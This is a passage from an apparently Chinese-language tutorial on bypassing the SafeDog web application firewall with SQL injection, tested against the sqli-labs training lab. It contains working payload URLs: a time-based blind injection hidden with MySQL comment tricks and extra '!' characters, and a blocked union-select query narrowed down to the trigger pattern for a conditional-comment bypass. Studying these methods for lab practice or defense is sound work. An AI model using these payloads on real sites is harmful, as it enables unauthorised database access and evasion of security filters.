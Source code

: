 ![](./../../../images/SQLi_Bypass/%E5%9C%A8%20and%20%E5%90%8E%E5%8A%A0%20!.png)

在 and 后再加两个 `!` 

```
http://192.168.186.129/sqli-labs/Less-1/?id=1'and!!!if(ascii(substr(database/**/(/*!*/),1,1))>116,1,sleep/**/(/*!3*/))--+
```

![(./../../../images/SQLi_Bypass/%E5%9C%A8%20and%20%E5%90%8E%E5%86%8D%E5%8A%A0%E4%B8%A4%E4%B8%AA%20!.png)

> 成功绕过
>
> 响应时间 2 秒加 sleep 时间 3 秒，刚好是 5 秒

### 1.2 新版本的安全狗绕过

### 1.2.1 条件注释绕过

提交参数

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

> 被拦截

逐个删除字符，得到拦截语法为 `union selec`

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union selec
```

加条件注释
